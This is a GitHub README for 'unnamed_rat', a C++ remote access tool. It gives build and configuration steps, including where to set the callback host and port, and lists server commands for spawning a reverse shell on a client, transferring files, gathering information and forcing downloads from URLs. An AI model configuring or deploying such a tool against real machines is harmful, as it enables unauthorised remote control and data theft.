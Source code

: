[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0) ![Platforms: linux-64 | win-64](https://img.shields.io/badge/platform-linux--64%20|%20win--64-success.svg)

![Documentacion en Español](https://github.com/d3adlym1nd/unnamed_rat/blob/master/README.es)
# unnamed_rat
Multiplatform Command-line Remote Access Tool (RAT)

### Dependencies
- libssl
- libnotify (Desktop notifications) - Optional

### Client Included functions
- Connection over TLS
- File transfer
- Interactive reverse shell
- Information gathering
- Download files from HTTP(S) servers

### Language
Edit `headers.hpp` and uncomment the language you want to use in the program. Languages so far:
```cpp
//Spanish
#define ES

//English
#define EN
``

### Misc
To enable colored output or desktop notification(Linux) on server uncomment the followig lines respectively on `headers.hpp` file 
```cpp
#define _COLOR

//Linux only 
#define _NOTIFY
```
To use `notify` feature you have to install `libnotify` on your system and use the make file `makenotify` locate in the server source directory.
Compile with `make -f makenotify`.

### Building (Client)
Edit `headers.hpp` and comment/uncomment:
```cpp
#define _DEBUG
```
 to enable/disable verbose output to console. Modify `main.cpp` and change the line
```cpp
Cli->Connect("YOUR HOST", "PORT")
```
with your host and port information. If `#define _DEBUG` is uncommented then host and port information must be passed as arguments from command-line. Ex `./Client 127.0.0.1 31337`. Build in client root directory with `make`.

### Building (Server)
Generate certificate and private key on server with `openssl req -x509 -newkey rsa:4096 -out cacer.pem -outform PEM -days 1825 -nodes`, place both files `cacer.pem` and `prikvey.pem` on server directory.
Edit `headers.hpp` and modify the line 
```cpp
#define Max_Clients 10
```
 if you want to handle more than 10 clients. Build in server root directory with `make`.

### Server Commands
Type `help`, `?` or `aiuda` at any time (not in reverse shell) to show available commands

#### Main Shell
Command | About
------- | -----
cli | Execute actions on clients
help, ?, aiuda | Show available commands
exit | Finish server

#### Client Shell (Interactive Mode)
Command | About
------- | -----
upload | Upload a local file to remote client
download | Download a remote file from client
shell | Spawn an interactive reverse shell on remote client
httpd | Force client to download a file from specified url
info | Retrieve information from client
help, ?, aiuda | Show available commands
exit | Close interactive session (Not connection)
- More comming...

## Tested on
- Debian
- Arch
- Windows 7
- Windows 10

## Contribute
Any contribution its welcome!!!

## Screenshots
![](https://i.imgur.com/p04wBN1.jpg)
![](https://i.imgur.com/NF7cQUC.jpg)
![](https://i.imgur.com/7Q4yjxh.jpg)
![](https://i.imgur.com/TNRV7kh.jpg)
# DISCLAIMER
This software is for testing purposes only, designed to run in a controlled environment, it should not be run in a real-world scenario. The developer is not responsible for any damage caused or legal repercussions. Use it at your own risk.

